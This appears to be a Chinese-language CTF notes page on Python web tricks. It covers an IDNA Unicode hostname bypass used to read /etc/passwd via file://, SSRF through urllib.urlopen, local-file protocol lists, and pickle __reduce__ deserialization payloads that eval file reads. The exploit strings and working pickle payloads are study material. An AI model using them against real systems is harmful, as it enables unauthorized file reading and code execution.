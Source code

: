 ## **url中的unicode漏洞**
```
℆这个字符在经过
for h in host.split('.'):
      newhost.append(h.encode('idna').decode('utf-8'))
处理后变成c/u

以及ℂ变成c等
```

于是传入url=file://suctf.cc/etc/passwd
可以变成传入url=file://suℂtf.cc/etc/passwd绕过过滤，最终又变回来
>非预期这个也可绕过：url=file:////suctf.cc/etc/passwd
```
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"


    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host


    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()   #http读网站，file读本地文件
    else:
        return "我扌 your problem? 333"
```

^
## **字符绕过**
如果判断是：
if "scan" in self.action:
则action中含有scan字符即可通过。
一般是两种字符按顺序拼接一起可以绕过多个判断，如xx+readscan ，xxread+scan

^
## **请求参数**
flask：
param = urllib.unquote(request.args.get("param", ""))
获取param参数值，如果没有默认为第二个空。

^
## **读文件**
tmpfile = open("./%s" % self.sandbox, 'w')

^
get请求读远程网址中文件前50字节，可能造成ssrf：
urllib.urlopen(param).read()[:50]
使用urllib.urlopen(param) 包含文件，可以直接填写文件路径`./flag.txt`，也可以使用伪协议。

本地文件读取协议:
fie://
local-file://绝对路径 或 local-file://flag.txt
gopher://



^
## **python反序列化**
python中反序列化的库主要有两个，`pickle`和`cPickle`，这俩除了运行效率上有区别外，其他没啥区别
和php一样不光能序列化字符串，也可以序列化数组，字典，类


`pickle`的常用方法有
```
import pickle

a_list = ['a','b','c']

# pickle构造出的字符串，有很多个版本。在dumps或loads时，可以用Protocol参数指定协议版本，例如指定为0号版本
# 目前这些协议有0,2,3,4号版本，默认为3号版本。这所有版本中，0号版本是人类最可读的；
# 之后的版本加入了一大堆不可打印字符，不过这些新加的东西都只是为了优化，本质上没有太大的改动。
# 一个好消息是，pickle协议是向前兼容的。0号版本的字符串可以直接交给pickle.loads()，不用担心引发什么意外。
# pickle.dumps将对象序列化为字符串
# pickle.dump将序列化后的字符串存储为文件
print(pickle.dumps(a_list,protocol=0))

pickle.loads() #对象反序列化
pickle.load() #对象反序列化，从文件中读取数据
```


ctf中大多数常见的pickle反序列化，利用方法大都是`__reduce__`，实现RCE。
`__reduce__`这个魔术方法，这个魔术方法简单的来说可php的`__wakeup`差不多,就是在被序列化的时候告诉系统如何运行，
他的返回值第一个参数是函数名，第二个参数是一个tuple，为第一个函数的参数。
稍微有点区别在于我们能够控制里面的内容，而php的`__wakeup`则是目标环境写死的，说明python反序列化更加自由一些


```
# -*- coding: utf-8 -*-
# python2代码
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a) 
# 将生成的序列化串，传入反序列化进行RCE文件读取。
```

```
# Python 3的代码
import pickle
import urllib.parse

class payload:
    def __reduce__(self):
        return (eval, ("open('flag.txt', 'r').read()",))

# Python 3中pickle.dumps()返回的是bytes类型，不需要urllib.quote进行编码
a = pickle.dumps(payload())

# Python 3中urllib.quote函数在urllib.parse模块中
a_quoted = urllib.parse.quote(a)  # 这里对bytes类型进行编码可能不是必要的
print(a_quoted)
# 将生成的序列化串，传入反序列化进行RCE文件读取。
```




